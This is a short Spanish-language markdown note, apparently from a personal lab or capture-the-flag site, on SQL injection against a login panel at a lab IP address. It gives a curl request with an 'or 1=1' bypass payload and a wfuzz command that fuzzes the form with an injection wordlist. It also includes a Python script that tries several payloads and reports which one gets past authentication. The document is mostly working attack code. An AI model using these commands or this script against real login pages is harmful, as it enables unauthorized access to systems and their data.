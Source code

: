 ```yaml
---
title : SQL Web Panel
published : True
---
```

* <p> Sql injection en panel de login</p>

```python
#Injeccion sql en panel administrador, desde petenciones con curl:
curl -s -X POST "http://10.10.254.165/login.php" -d "username='|| or 1=1-- - &password=-- -" -i

#Injeccion sql en base a un wordlist de injeccion sql:
wfuzz -t 20 -c -z file,wordlists.txt -d "username=FUZZ\&password=FUZZ" http://10.10.254.165/login.php
```
* <p>Sabiendo estos datos puedo crear perfectamente un script en python que aplique injeccion sql en paneles administradores</p>
<br>

```python
#!/usr/bin/python
import requests

id_username = 'username'
id_password = 'password'
url = 'http://10.10.254.165/login.php'
 
sql_payload = [

    "' or 1=1-- -",
    "' || or 1=1-- -",
    "' 1=1-- -"

]
for list in sql_payload:
    datos = requests.post(url, data={id_username : list, id_password : list}, allow_redirects=False)
    if datos.status_code != 200:
        print("[+] Injection sql sucess :", list)
        exit()
    print("Failed : ", datos.status_code, list)


```
